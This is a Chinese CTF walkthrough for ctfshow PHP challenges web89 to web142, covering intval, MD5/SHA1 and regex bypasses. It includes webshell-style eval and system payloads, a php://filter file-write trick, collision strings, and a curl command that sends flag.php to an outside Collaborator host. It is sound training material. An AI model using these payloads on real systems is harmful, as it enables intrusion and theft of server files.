


php特性
intval函数，虽然这里是这一个函数，但这里的绕过知识可以类比其他函数
intval() 函数可以获取变量的「整数值」，常用于强制类型转换。
语法
1 | int intval( $var, $base ) |
参数
- $var：需要转换成 integer 的「变量」
- $base：转换所使用的「进制」
返回值
返回值为 integer 类型，可能是 0 或 1 或 其他integer 值。
- 0：失败 或 空array 返回 0
- 1：非空array 返回 1
- 其他integer值：成功时 返回 $var 的 integer 值。
返回值的「最大值」取决于系统
- 32 位系统（-2147483648 到 2147483647）
- 64 位系统（-9223372036854775808到9223372036854775807）
一、进制自动转换
第二个参数 $base 允许为空。
当 base 为空时，默认值是 0，会根据 $var 的格式来调整转换的进制。
- 如果 $var 以 0 开头，就使用 8进制
- 如果 $var 以0x开头，就使用 16进制
- 否则，就使用 10进制
实例：
1 | # 10的 8进制是12 |
输出：
1 | int(10) |
绕过思路：当某个数字被过滤时，可以使用它的 8进制/16进制来绕过，但通常过滤数字的话全部会过滤，接下来的方法可以尝试
二、转换数组
intval() 转换数组类型时，不关心数组中的内容，只判断数组中有没有元素。
- 「空数组」返回 0
- 「非空数组」返回 1
实例：
1 | var_dump(intval(array())); |
输出：
1 | int(0) |
如果传入的 $var是数组中的某个值时，则当做变量来转换，而不是当做数组类型。
实例：
1 | $arr1 = array(8,6); |
输出：
1 | int(8) |
绕过思路：对于弱比较（a==b），可以给a、b两个参数传入空数组，使弱比较为true。
三、转换小数
intval() 转换小数类型时，只返回个位数，不遵循四舍五入的原则。
实例：
1 | var_dump(intval(12)); |
输出：
1 | int(12) |
绕过思路：当某个数字被过滤时，可以给它增加小数位来绕过。
*四、转换字符串
intval() 转换字符串类型时，会判断字符串是否以数字开头
- 如果以数字开头，就返回1个或多个连续的数字
- 如果以字母开头，就返回0
单双引号对转换结果没有影响，并且 0 或 0x 开头也只会当做普通字符串处理。
实例：
1 | var_dump(intval('12abc')); |
输出：
1 | int(12) |
五、取反~
intval() 函数支持一些特殊符号的，比如~取反。
实例：
1 | var_dump(intval(~10)); |
输出：
1 | int(-11) |
绕过思路：当某个数字被过滤时，可以两次取反来绕过。
六、算数运算符
intval() 函数支持算数运算符，如果传入的 $var参数包含算数运算符，会先运算，再对运算结果进行转换。
实例：
1 | var_dump(intval(5*5)); |
输出：
1 | int(25) |
绕过思路：当某个数字被过滤时，可以使用算数运算符绕过。
七、浮点数精度缺失问题
由于PHP中的浮点数是「弱类型」，存在「精度丢失」的问题，在转换时可能会出现意料之外的情况。
比如下面这个案例，第一个输出34正常，第二个以为会输出58，结果输出了57。
实例：
1 | var_dump(intval(0.34*100.0)); |
输出：
1 | int(34) |
intval()绕过思路
最后汇总一下intval()函数漏洞的绕过思路：
1）当某个数字被过滤时，可以使用它的 8进制/16进制来绕过；比如过滤10，就用012（八进制）或0xA（十六进制）。
2）对于弱比较（a==b），可以给a、b两个参数传入空数组，使弱比较为true。
3）当某个数字被过滤时，可以给它增加小数位来绕过；比如过滤3，就用3.1。
4）当某个数字被过滤时，可以给它拼接字符串来绕过；比如过滤3，就用3ab。（GET请求的参数会自动拼接单引号）
5）当某个数字被过滤时，可以两次取反来绕过；比如过滤10，就用~~10。
6）当某个数字被过滤时，可以使用算数运算符绕过；比如过滤10，就用 5+5 或 2*5。
原文链接：https://blog.csdn.net/wangyuxiang946/article/details/131156104
MD5碰撞
本来就是0e开头的0e215962017经过md5后还是0e开头
QNKCDZO
240610708
s1502113478a
s1885207154a
s1836677006a
s155964671a
s1184209335a
MD5强碰撞在burp抓包了才成功
强碰撞 就是加了一个string转换，导致==绕不过去
md5强碰撞例子
psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2
与
psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2
还有
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
与
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
shal加密的与md5的一样
如果是强比较，没有转为string，可以用数组 例如 a[]=1&b[]=2来绕过，也可以用强碰撞
如果是强比较，转为string，只能用强碰撞
shal强碰撞例子
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
与
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
web89
1 | include("flag.php"); |
1代表true；0代表false
intval();
preg_match()只能处理字符串，如果处理数组会返回false。…看来得补一下各种绕过知识了
intval如果传入数组，会返回1
?num[]=2，后面的数字2可以随便换
ctfshow{a5e284d7-40c2-4e98-8c82-27f479ad717e}
web90
1 | include("flag.php"); |
intval处理开头是数字的字符串时，返回值为开头的数
?num=4476a
ctfshow{6a8b00b5-3ae2-4d7f-a9c8-47a502188bee}
web91
1 | show_source(__FILE__); |
/^
- 表示匹配字符串的开头。
php
- 表示匹配 “php” 这个具体的字符串。
$/
- 表示匹配字符串的结尾。
i（修饰符）
- 表示不区分大小写匹配。例如，“PHP”、“Php” 都可以匹配。
m（修饰符）
- 表示多行匹配模式。也就是说，如果
$a是多行字符串，每行的开头和结尾都会被匹配，而不仅仅是整个字符串的开头和结尾。
?cmd=%0aphp或者?cmd=php%0aphp
ctfshow{b3c727a8-48eb-4f8e-a740-dce79e3b6058}
web92
1 | include("flag.php"); |
第一个if好绕过，只要不是4476就可以；第二个if，有一个intval()函数，而且任何类型的都可以，那我们，八进制，十六进制都可以
?num=010574
?num=0x117c
web93
1 | include("flag.php"); |
这里又过滤了字母，那我们的十六进制就不可以了，可以试试八进制
?num=010574
ctfshow{ad65cdd0-636d-4c10-9561-adac08ad24db}
web94
1 | include("flag.php"); |
对于strpos()函数，可以用%0a、小数点、还可以用八进制绕过日(前面加一个%20，达成拼接)
strpos()函数，它要求num中必须有0，但还不能在开头
?num=%0a4476
?num=4476.0
由于第三个if必须要我们在num里面插进去一个0才可以，我们可以把4476换成八进制010574，或者把4476变成小数类型的，
?num=%0a010574
?num=%0a4476.0
?num=%0a010574+01
ctfshow{ac84a184-911a-497e-987e-9ac8af505bd2}
web95
1 | include("flag.php"); |
直接用八进制，然后用空格或者换行符
?num=%20010574
?num=%0a010574+1
?num=+010574
?num=%2b010574 %2b是+
太巧了4476/8=520
intval常见输出

ctfshow{8719f1fd-f070-4353-8e9a-a33948b0d9de}
web96
1 | highlight_file(__FILE__); |
?u=php://filter/convert.base64-encode/resource=flag.php
这里的新方法:?u=./flag.php
ctfshow{39dcec3b-7245-4618-be73-b8b96130ab94}
web97
1 | include("flag.php"); |
md5无法处理数组。好像强弱比较都可以用数组绕过
好像还有md5碰撞https://blog.csdn.net/qq_49480008/article/details/113753951
ctfshow{97595aeb-9a38-4a87-ada7-8bcc9a31859e}
web98
1 | include("flag.php"); |
?同java当中的?的用法相同：如果满足条件则返回true的结果，否则返回flase的结果
倒着分析：
1.这里我们要拿到最后的$flag：我们要get一个HTTP_FLAG，而且HTTP_FLAG还要等于flag
2.如果我们get的flag等于flag，那么get变为$_SERVER
3.如果我们get的flag等于flag，那么get变为$_COOKIE
4.get是否有参数，如果有，则把post的值给get。也就是说a=b;b=1;。源码当中的&就是引用post的
这里的234条件只要2条件，因为34条件对我们拿flag没有用。
get参数可以为任何字母、数字，但不能没有
?*
post=HTTP_FLAG=flag
ctfshow{e8fc547b-9f20-4fc8-88aa-e463e93ee0aa}
web99
1 | highlight_file(__FILE__); |
in_arry()与intval() 一样，1123aaaa=1123(in_array延用了php中的==)
?n=1.php
post=content=
antsword连接(百度解决antsword的问题)，或者正常方法搞
ctfshow{836ba253-49ea-4e93-852a-1df05664ac15}
web100
1 | highlight_file(__FILE__); |
逻辑运算符的优先级：“&&” > “||” > “=” > “and”，等号的优先级高于and，所以v0只跟v1有关系，v2和v3是干扰。所以$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);这一段只会执行$v0=is_numeric($v1)，后边的就没有用了
?v1=1&v2=var_dump($ctfshow)&v3=;
或者
?v1=1&v2=@eval($_POST[zmr])?>/&v3=/;
zmr=system(‘tac f*’);
好像存在过滤，…咋过滤的啊，不知道。直接tac *
zmr=system(‘tac *’);
flag_is_7a396b080x2d9bbf0x2d49bb0x2d95960x2d337c22cf6fde
flag_is_7a396b080x2d9bbf0x2d49bb0x2d95960x2d337c22cf6fde
0x2d是-
ctfshow{7a396b08-9bbf-49bb-9596-337c22cf6fde}
web101
1 | highlight_file(__FILE__); |
反射，通俗来讲就是可以通过一个对象来获取所属类的具体内容，php中内置了强大的反射API：
- ReflectionClass：一个反射类，功能十分强大，内置了各种获取类信息的方法，创建方式为new ReflectionClass(str 类名)，可以用echo new ReflectionClass(‘className’)打印类的信息。
- ReflectionObject：另一个反射类，创建方式为new ReflectionObject(对象名)。
?v1=1&v2=echo new ReflectionClass&v3=;
flag_15b848760x2d91540x2d45430x2db2770x2dc72dcd68eb6
web102
1 | highlight_file(__FILE__); |
这题卢本伟有话说：**
hex2bin，php当中的函数，对什么什么使用hex解码
call_user_func($v1,$s)的意思是调用$v1这个函数解析$s这个值
substr($v2,2)的意思是从v2的第三个字符开始读取，那v2如果是命令的话，前面得加俩字母或者其他东西
先理解一下if外面的函数
总之是要拼接file_put_contents($v3,$str);
那么v3=1.php。str=system(tac *);
再看v3，没有啥限制。
再看str，$str = call_user_func($v1,$s);
v1=system，$s=tac *
再看substr($v2,2)，
v2=aatac *
再看v4，必须是数字才可以进入if函数，但是上面我们的v2=是字母，而不是数字，那么我们要弄成数字，怎么弄？变成八进制？但是八进制的话需要两步才可以拿到字符串，变成十六进制？好像可以，但是十六进制里面有字母啊，没关系，有时候十六进制也都会是数字(这里可以含有字母e)，找一找(这里就是卢本伟吐槽的地方了)
这里我们:v1=hex2bin，v2(经过base64和hex加密)=115044383959474e6864434171594473，然后v3=php://filter/write=convert.base64-decode/resource=1.php，就完美解决所以问题了。
不得不说，前人的智慧啊，流弊。
?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
post=v1=hex2bin
ctfshow{f71c0477-b08e-46ff-aa38-15033961057e}
web103
道理同web101
web104
1 | highlight_file(__FILE__); |
这题比较简单，不分析了
?v2=2
post=v1=2
ctfshow{ac04649d-e36e-40eb-b6ca-473940be8d59}
web105
1 | highlight_file(__FILE__); |
$$为覆盖
1 |
|
$suces $error $flag
这道题最后一行有一个回显内容是$error的内容/不论post的内容为什么，都会输出$error(输入flag=flag又会进入一种循环)
我们可以利用源码当中的$$替换$flag到的die($error)
$$key=$$value
$suces=$flag
$$key=$$value
$error=$suces
?a=flag
post=error=a
ctfshow{09b3bd0b-d190-46a3-a74d-34cbd51027e3}
web106
1 | highlight_file(__FILE__); |
sha1弱比较
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
经过sha1单向加密后的结果正好是零的科学计数法的形式
那这样正好绕过sha1函数和!=
ctfshow{50a2ad6f-2084-4155-b7f0-1ef62e03c8f8}
web107
1 | highlight_file(__FILE__); |
parse_str(string,arry)的意思是把格式为xxx=123的东西以数组的形式存进arry，当echo arry[‘xxx’]时的结果是123
1 | $a='q=123&p=456'; |
?v3=1
post:v1=flag=c4ca4238a0b923820dcc509a6f75849b
ctfshow{f3f4f0a2-04b1-4e1a-a848-17f9f5a7325c}
web108
1 | highlight_file(__FILE__); |
ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配
就是说，我前面随便写字母，在数字之前用%00会结束ereg继续往下读取
strrev()函数会颠倒字符串：123变成321
?c=aawedagiufuiafg%00778
ctfshow{e59c653b-ab46-4ab8-8616-5981adf48b4a}
web109
1 | highlight_file(__FILE__); |
?v1=Exception&v2=system(‘cat fl36dg.txt’)
或者
?v1=ReflectionClass&v2=system(‘ls’)
?v1=ReflectionClass&v2=system(‘cat f*’)
ctfshow{f1026488-7b30-4870-b70a-1591bf8c5984}
web110
1 | highlight_file(__FILE__); |
FilesystemIterator获取目录文件FilesystemIterator
getcwd()函数取得当前工作目录getcwd()函数
?v1=FilesystemIterator&v2=getcwd
直接访问fl36dga.txt
ctfshow{877b1427-8494-4b02-83da-50395cfd5c76}
web111
1 | highlight_file(__FILE__); |
$GLOBALS — 引用全局作用域中可用的全部变量，var_dump可以输出数组
一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
ctfshow{eb655091-d6da-49ac-9cb2-720ddfd96409}
web112
1 | highlight_file(__FILE__); |
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
?file=php://filter/resource=flag.php
?file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
?file=compress.zlib://flag.php
ctfshow{d02647e2-a740-41a6-9655-e216a80a09f6}
web113
1 | highlight_file(__FILE__); |
?file=compress.zlib://flag.php
ctfshow{fc4adad6-e67a-4a2f-acc6-182981fd2038}
web114
1 | error_reporting(0); |
?file=php://filter/resource=flag.php
ctfshow{d99300ad-d9f6-42a3-b591-dcb9fdb4c81c}
web115
1 | include('flag.php'); |
编写程序查看哪些东西可以用
首先是is_numeric()
1 | for ($i=0; $i <128 ; $i++) { |
再看trim+is_numeric
1 | for ($i=0; $i <=128 ; $i++) { |
上面这是自己测试的过程
通常下面的url编码不会被过滤
1 | 空格：%20 |
?num=%0c36
ctfshow{d868739b-d912-4a86-b673-7350f9de5640}
web123
1 | error_reporting(0); |
在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、+、点、[转换为下划线，但是用一个特性是可以绕过的，就是当[提前出现后，后面的点就不会再被转义了。https://developer.aliyun.com/article/1585258?spm=a2c6h.12873639.article-detail.9.734c76b6RS9rI3
这里CTF[SHOW.COM=>CTF_SHOW.COM
要求CTF_SHOW、CTF_SHOW.COM必须传参，fl0g不能传参。所以$fl0g==="flag_give_me"条件不能满足，可以利用上面的eval。
psot=CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag
ctfshow{c1a29324-df3e-4f88-aaaa-07fca79f4668}
题中有一段代码是a=a=_SERVER[‘argv’];
pear文件包含，argv这个东西涉及到了pear文件包含的原理。
具体请点击上文的链接，接下来是个人理解
1 | argv能够独立获取传入?=巴拉巴拉...的作用 |
web125
1 | error_reporting(0); |
CTF_SHOW=1&CTF[SHOW.COM=1&fun=extract($_POST)&fl0g=flag_give_me
对post进行覆盖，让$fl0g=flag_give_me，以便if($fl0g===“flag_give_me”)可以正常识别到fl0g
或者我们使用上面的办法
get:
?$fl0g=flag_give_me;
post:
CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])
再或者
?a=flag.php
CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[a])
ctfshow{0605866c-3720-4957-ac25-0e9ff5cc71bd}
web126
1 | error_reporting(0); |
get:
?$fl0g=flag_give_me;
psot:
CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])
ctfshow{b6aceaa0-bba5-4f52-adce-3439b1a660f1}
web127
1 | error_reporting(0); |
这里我们要传入?ctf_show=ilove36d
但是被waf函数过滤了下划线
但我们在之前知道：在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、+、点、[转换为下划线，但是用一个特性是可以绕过的，就是当[提前出现后，后面的点就不会再被转义了。
那么我们需要绕过对下划线的过滤，而waf当中是没有过滤空格的，所以
?ctf show=ilove36d
ctfshow{1bfb2e20-7d56-40ba-b1ff-8c1289186722}
web128
1 | error_reporting(0); |
题目的正则要求f1不存在字母数字，v2无限制。
calluser_func：第一个参数是被调用的回调函数，其余参数是回调函数的参数。
var_dump：打印变量的相关信息
gettext():__()是gettext()的拓展函数 在开启相关设定后，(“666”)等价于gettext(“666”)，且就返回其中的参数
get_defined_vars：返回由所有已定义变量所组成的数组，因为包含了flag.php，所以flag.php里面肯定有$flag储存了flag。
?f1=_&f2=get_defined_vars
var_dump(call_user_func(call_user_func($f1,$f2)));
=> var_dump(call_user_func(call_user_func(_,‘get_defined_vars’)));
=> var_dump(call_user_func(get_defined_vars));
ctfshow{a8ba5b1e-f162-46b1-aa12-bc88b1159f36}
web129
1 | error_reporting(0); |
?f=php://filter/|ctfshow/resource=flag.php
应该是没有过滤器ctfshow，这里就是为了过去stripos()函数
stripos()用于查找一个字符串在另一个字符串中首次出现的位置，忽略大小写。
wp给了好多方法
GET传参：
//查看源码
?f=php://filter/|ctfshow/resource=flag.php
?f=/ctfshow/…/…/…/…/…/…/…/var/www/html/flag.php
?f=./ctfshow/…/flag.php
//直接回显base64
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
ctfshow{2ac556be-32a9-4647-a0ca-5721ba627b25}
web130
1 | error_reporting(0); |
preg_match不识别数组，否则返回false
stripos()遇到数组会返回null,null!=false,所以可以绕过stripos函数
post:
f[]=
.表示任意单个字符，+表示必须匹配1次或多次，+?表示 重复1次或更多次，但尽可能少重复。
post:
f=ctfshow
f=ctfshow,即可绕过preg_match函数。同时，if(0 === flase)返回值为false，0不是强等于false的，所以也不满足if(stripos($f, ‘ctfshow’) === FALSE)
ctfshow{a3819496-3fb6-41d5-bf1d-29d4f6dbd81f}
web131
需要跑脚本，略
web132
需要用dirsearch搜
我这里的代码是：
C:\Users\ssz\AppData\Local\Programs\Python\Python312\dirsearch-master
python dirsearch.py -u https://fcdcc901-047a-4270-9a98-da68f6613c74.challenge.ctf.show/
1 | include("flag.php"); |
||优先级低于&&
就是说，先进行和的运算&&
但是在和运算之后，再进行||
那么他只需要||后面的成立即可
?code=admin&password=123&username=admin
ctfshow{83312124-29dd-45b6-81c7-91c03495e5b5}
web133
1 | 传入?F=`$F` ;sleep 3 //此时不被正则过滤，程序中$F=`$F` ;sleep 3 |
同理可以构造
1 | ?F=`$F` ;ls / |
这样是没有回显的
打开bp的collaborator，复制到剪切板
payload: curl -X POST -F xx=@flag.php http://xxx
后面的xxx改为复制的东西，然后再刷新一下就有了

ctfshow{e58de84c-ac21-4c84-b90d-c612cf054006}
web134
1 | highlight_file(__FILE__); |
parse_str()：将字符串解析成多个变量(示例来自chatgpt)
1 |
|
输出：
1 | Array |
extract()：从数组中将变量导入到当前的符号表
1 |
|
1 | ?_POST[key1]=36d&_POST[key2]=36d |
$_SERVER[‘QUERY_STRING’]是全局变量，存储了 URL 中查询字符串的部分（即 ? 后的部分）
parse_str($_SERVER['QUERY_STRING']) 会解析这个查询字符串，并将其转换为 $_POST 数组中的数据（即使数据是通过 GET 请求传递的）。
payload的解释：我们传进去之后他正好绕过了第一个if函数体。然后经过parse_str()和$_SERVER[‘QUERY_STRING’]把我们?后面的的部分当作post传来的数组储存起来，就是通过parse_str()包括的内部东西会被当做post。然后后面的extract()函数会把我们传入的东西加上$，当作变量，然后就相当于传入了相应的key，最后拿到flag。我们需要看源码。
ctfshow{9e94d52f-22ec-4266-9a50-0bd15766e46d}
web135
1 | error_reporting(0); |
?F=$F ;cp flag.php 1.txt
?F=$F ;nl flag.php>1.txt
?F=$F ;mv flag.php 1.txt
ctfshow{0ee326bd-a1b7-40d7-ba5c-0c6ae7e1cc7f}
web136
1 | error_reporting(0); |
linux tee命令
1 | $ echo "Hello, world!" | tee output.txt 将Hello, world!弄到txt文件中 |
?c=ls /|tee 1发现有flag文件
f149_15_h3r3
?c=tac /f149_15_h3r3|tee 2
ctfshow{5b5c2d9a-c827-4c31-88d3-3dca44d122bf}
web137
1 | error_reporting(0); |
调用cyfshow类中getFlag()方法。
php中 ->与:: 调用类中的成员的区别：
1 | ->用于动态语境处理某个类的某个实例 |
双冒号可以不用实例化类就可以直接调用类中的方法
ctfshow=ctfshow::getFlag
ctfshow{f3dd2e35-e4e2-4d4b-bd5b-32e000547bd9}
web138
1 | error_reporting(0); |
strripos() 是 PHP 中的一个函数，计算指定字符串在目标字符串中最后一次出现的位置，用于查找 字符串 在另一个字符串中最后一次出现的位置，不区分大小写。它与 strrpos() 类似，区别在于 strripos() 会忽略大小写，而 strrpos() 区分大小写。
call_user_func函数里面可以传数组，第一个元素是类名或者类的一个对象，第二个元素是类的方法名，同样可以调用。
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
ctfshow{30dacf69-8c78-4a8e-9930-156604fa0ae2}
web139
毛病
web140
1 | error_reporting(0); |
这一题我们最终要使intval($code) == 'ctfshow’成立
intval()函数会把非数字的字符转换为零
那么我们只需要code为零即可
f1=usleep&f2=usleep
f1=md5&f2=phpinfo
f1=md5&f2=sleep
f1=md5&f2=md5
f1=current&f2=localeconv
f1=sha1&f2=getcwd 因为/var/www/html md5后开头的数字所以我们改用sha1
ctfshow{4d5a17a5-b054-4ffa-bb28-4e5822a7f3c5}
web141
无
数字是可以和命令进行一些运算的，例如 1-phpinfo();
web142
0
ctfshow{48e932d7-ed2c-4fad-8bda-caa18de9bfb9}